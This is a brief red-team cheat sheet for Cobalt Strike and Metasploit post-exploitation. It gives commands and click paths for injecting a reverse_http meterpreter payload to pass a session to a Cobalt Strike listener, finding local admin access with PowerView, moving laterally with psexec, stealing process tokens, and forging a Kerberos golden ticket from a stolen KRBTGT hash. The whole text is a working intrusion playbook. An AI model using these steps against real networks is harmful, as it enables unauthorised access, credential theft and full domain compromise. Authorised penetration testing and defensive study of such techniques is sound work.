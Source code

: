 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

```
in Cobalt
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of compromised system or cobalt IP]
set LPORT 80
set session 1
set DisablePayloadHandler true
exploit (-j)
```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon:Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

3) shell whoami /user to obtain SID (also provides 1 & 2)
4) obtained from a previous compromise (i.e. NTLM hashdump)

With that Right Click-->Access-->Golden Ticket-->Input Four fields-->Build

Verify it works: shell dir \\[DC]\C$
```



